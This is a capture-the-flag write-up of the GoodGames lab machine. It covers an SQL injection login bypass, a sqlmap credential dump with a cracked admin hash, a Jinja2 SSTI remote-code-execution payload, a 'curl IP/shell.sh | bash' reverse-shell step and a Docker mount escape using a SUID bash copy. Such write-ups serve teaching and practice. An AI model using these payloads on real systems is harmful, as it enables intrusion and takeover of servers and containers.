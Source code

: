 ```yaml
---
description: >-
  Basic web exploits of SQL Injection and SSTI, followed by a Docker Container
  Escape.
---
```


# GoodGames

## Gaining Access

As usual we start with an Nmap scan:

<figure><img src="../../../.gitbook/assets/image (63) (2) (1).png" alt=""><figcaption></figcaption></figure>

Take note of the `goodgames.htb` domain name.&#x20;

### SQL Injection

The website is about some video games stuff:

<figure><img src="../../../.gitbook/assets/image (23) (2) (2).png" alt=""><figcaption></figcaption></figure>

In the corner of the page, there's a login available.

<figure><img src="../../../.gitbook/assets/image (41) (2) (1).png" alt=""><figcaption></figcaption></figure>

This login is bypassable with the `' OR 1=1 -- -` input for the `email` parameter. When we login, we would be redirected to `internal-administration.goodgames.htb`.  This page has another login where SQL Injection does not work.

<figure><img src="../../../.gitbook/assets/image (1) (1) (7) (1).png" alt=""><figcaption></figcaption></figure>

Initially, I assumed that we needed to find credentials elsewhere and looked around the website. Understanding that there was an SQL Injection weakness earlier, we probably could dump out the credentials.

I used `sqlmap` to automatically dump ot out, and got `admin@goodgames.htb:2b22337f218b2d82dfc3b6f77e7cb8ec` as the output. This hash could be cracked to give the password of `superadministrator`.&#x20;

### SSTI in Username

Once logged in, the page redirected us to a dashboard where we could update our user profile.

<figure><img src="../../../.gitbook/assets/image (35) (3) (1).png" alt=""><figcaption></figcaption></figure>

The profile updater takes the user input for full name and outputs it on the screen. I tested this with a `{{7*7}}` payload as this was running on Werkzeug, which was a Python based server (detected in Nmap scan earlier).&#x20;

I was pleased to see that it worked:

<figure><img src="../../../.gitbook/assets/image (13) (3) (1).png" alt=""><figcaption></figcaption></figure>

With that, I proceeded to dump out the config of this server using `{{config.items()}}`.&#x20;

<figure><img src="../../../.gitbook/assets/image (44) (2) (1).png" alt=""><figcaption></figcaption></figure>

The SSTI also granted us RCE on the server with this payload:

```
{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```

<figure><img src="../../../.gitbook/assets/image (53) (2) (1).png" alt=""><figcaption></figcaption></figure>

With this, we can replace the `id` command with a `curl IP/shell.sh | bash` payload to gain a reverse shell as root on this Docker Container.

<figure><img src="../../../.gitbook/assets/image (22) (5) (1).png" alt=""><figcaption></figcaption></figure>

## Docker Escape

Now that we are in the container, we can scan around the network for other hosts that are alive. This can be done using this one-liner:

```bash
for i in {1..254}; do ping -c 1 172.19.0.$i | grep 'from; done 
```

<figure><img src="../../../.gitbook/assets/image (17) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

172.19.0.1, but we have no users and cannot do much with this for now. We can check the `/home` directory to find the `augustus` user. Additionally, I used `mount` to check all the directories mounted into the container from the host.

<figure><img src="../../../.gitbook/assets/image (51) (2) (1).png" alt=""><figcaption></figcaption></figure>

Since there was no `augustus` user within the `/etc/passwd` file on the container, this must be from the host. I just tried to SSH into 172.19.0.1, and it worked.

<figure><img src="../../../.gitbook/assets/image (52) (2) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

Earlier, we determined using `mount` that a possible mount point was the `/home/augustus` directory. Files that were edited while I was in the container were reflected within the host as well.&#x20;

When copying files into that directory, because I was a root user in the container, the owner of the files in the host was also root. So, I copied over `/bin/bash` and did `chmod +s bash` within the user directory.

This created a bash file with the SUID bit set within the host:

<figure><img src="../../../.gitbook/assets/image (31) (1) (3).png" alt=""><figcaption></figcaption></figure>

Getting root is trivial:

<figure><img src="../../../.gitbook/assets/image (59) (2).png" alt=""><figcaption></figcaption></figure>
